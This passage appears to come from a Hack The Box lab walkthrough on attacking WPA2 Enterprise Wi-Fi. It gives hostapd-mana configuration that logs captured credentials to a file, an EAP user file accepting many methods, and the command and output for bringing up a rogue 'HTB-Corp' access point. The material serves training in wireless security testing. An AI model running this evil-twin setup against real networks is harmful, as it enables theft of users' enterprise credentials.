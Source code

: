 ```
# Certificates
ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
private_key_passwd=whatever
dh_file=dh.pem

# MANA
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1
EOF
```

Since the target is using WPA2 Enterprise, an additional `hostapd.eap_user` file must be configured as well.

Code: shell

```shell
cat << EOF > hostapd.eap_user
* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAP "challenge1234" [2]
EOF
```

```
wifi@HTB-Corp:~$ cat << EOF > hostapd.eap_user
* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAP "challenge1234" [2]
EOF
```

Now, students are ready to launch the rogue access point via `hostapd-mana`.

Code: shell

```shell
sudo hostapd-mana hostapd.conf
```

```
wifi@HTB-Corp:~$ sudo hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 2a:17:8c:09:0f:f1 and ssid "HTB-Corp"
random: Only 16/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```
